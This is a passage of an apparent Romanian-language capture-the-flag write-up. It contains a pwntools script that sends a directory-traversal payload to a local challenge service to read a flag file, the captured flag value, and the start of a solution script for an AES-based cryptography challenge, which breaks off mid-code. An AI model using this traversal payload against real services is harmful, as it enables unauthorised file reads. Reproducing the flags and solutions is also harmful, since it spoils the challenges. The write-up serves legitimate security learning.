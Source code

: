 ```python
#!/usr/bin/env python3
from pwn import *
context.log_level = "debug"

def exploit():
    p = remote("localhost", 4444)

    p.recvuntil("Enter your choice: ")

    # Selectăm opțiunea de a vizualiza detaliile unui atac
    p.sendline("2")
    
    p.recvuntil("Enter attack ID to view details: ")

    # Construim payload-ul care exploatează vulnerabilitatea de directory traversal
    payload = '["444444444444444444444444444444444444444444444\\n../../../../../../../../../../../../../../../../../flag.ctf"]'

    log.info("Sending payload: " + payload)
    p.sendline(payload)
    
    # Primim răspunsul care ar trebui să conțină flag-ul
    data = p.recv(timeout=2)
    print(data.decode())
    
    # Menținem conexiunea interactivă
    p.interactive()
```

**Flag:** `CTF{0834a9094bfb34aa45759c9f887d183c0e5e0386ae702e89cadf66766bf6054a}`

## merchandise (Cryptography)

**Descriere:**
```
The Merchant of DOOM era un traficant de arme notoriu, care prospera prin rețele complexe și logistică avansată. Își codifica tranzacțiile într-un mod unic, folosind vectori pentru a-și ascunde afacerile. Poți descifra operațiunile sale secrete și descoperi înțelegerile ascunse?
```

Provocarea implică un server Sage care cere un vector B cu 3 numere întregi, pentru simplitate eu am ales vectorul B = [0, 0, 1], baza canonică în spațiu vectorial $$R^3$$. Serverul calculează produsul vectorial (cross product) între un vector A secret și vectorul B furnizat de noi, apoi folosește un hash al produsului vectorial pentru a genera o cheie de criptare AES pentru flag.

**Soluție:**
```python
from Crypto.Cipher import AES
from hashlib import sha256
import socket
import re
import time

def decrypt_flag(key, encrypted_flag_hex):
    # Convert from hex to bytes
    encrypted_flag = bytes.fromhex(encrypted_flag_hex)
    
    # Decrypt
    cipher = AES.new(key, AES.MODE_ECB)
    padded_flag = cipher.decrypt(encrypted_flag)
    
    # Remove padding
    pad_len = padded_flag[-1]
    flag = padded_flag[:-pad_len]
    
```